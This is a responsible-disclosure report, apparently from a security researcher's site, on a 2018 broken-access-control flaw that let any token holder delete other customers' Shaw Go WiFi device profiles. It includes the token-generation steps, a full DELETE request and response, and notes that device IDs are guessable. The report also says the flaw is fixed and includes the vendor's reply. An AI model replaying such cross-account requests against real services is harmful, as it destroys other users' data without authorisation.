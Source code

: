 ```yaml
---
layout: reports
permalink: /reports/7/
tagline: "On 10 August 2018 I discovered an Arbitrary File Deletion vulnerability on shaw.com"
image:
  feature: 
  hero: 
report-id: GW0007
---
```


## Summary

By sending a `DELETE` request to a specific API location it is possible to arbitrarily delete Shaw Go Wifi device profiles from any account.

This attack requires some authentication. For the request to be successful an `access_token` needs to be generated either from an IP associated with any Shaw customer or by remotely logging into a @shaw.ca email. The `access_token` can be used to delete device profiles even if they are associated with another account.

## Proof of Concept

We can generate `access_token` by visiting `https://wifi-registration.shaw.ca/drp/` and inspecting the response from `/api/token`.

After generating an `access_token` we can send a `delete` request, replacing `c15c0d06f00d` with the device ID. The device ID is usually either the device MAC Address or `120100██████` with `██████` being a sequentially generated hexadecimal value.

Request:
```http
DELETE /api/customer/devices/c15c0d06f00d HTTP/1.1
Host: wifi-registration.shaw.ca
Connection: close
Authorization: Bearer [access_token_redacted]
Content-Length: 26

Cookie:

[object Object]
```

Response:
```http
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 10 Aug 2018 13:37:00 GMT
Content-Type: application/json
Content-Length: 50
Connection: close
Set-Cookie: txGUID=████████-████-████-████-████████████; path=/; domain=shaw.ca
Set-Cookie: WiFiCaptivePortalDetails=[REDACTED]; path=/; expires=Fri, 10 Aug 2018 13:37:00 GMT; domain=shaw.ca
Cache-Control: no-store, must-revalidate, no-cache, max-age=0
Cache-Control: no-cache
Set-Cookie: captive_env=prod

{"response_time":"0.123s","v":"2.9.11-6.899e73c0"}
```

_Some details in this response have been altered or redacted to ensure the privacy of the account owner._


## Recommended Actions

 - Implement proper access controls.

## Remediation Status

At the time of publishing this report using `access_token` generated by visiting `https://wifi-registration.shaw.ca/drp/` now result in the response `412 Precondition Failed` and `{"code":242,"message":"Invalid Device - Missing from Account: 03161234567"}`

Furthermore successful requests now show `{"response_time":"0.123s","v":"2.9.12-1.4c02e4ac"}` indicating the software version has been updated since.

## Response From Vendor


### Response From mbxcustomerprotectio@sjrb.ca 23 Sept 2018

> We would like to thank @glitchwitch for bringing this issue to our attention. As a result of this exercise, Shaw’s WiFi device management was able to make security advancements, and we consider this matter resolved.
>
>
>
>Regards.
>
>
>
>Shaw Customer Protection Team
>
>E: Customer.Protection@sjrb.ca
>
>This message is confidential and may contain privileged information. We ask that you not use or disclose this message other than with our consent.
>
>If you are not an intended recipient, please immediately notify us and delete this message. Thank-you.
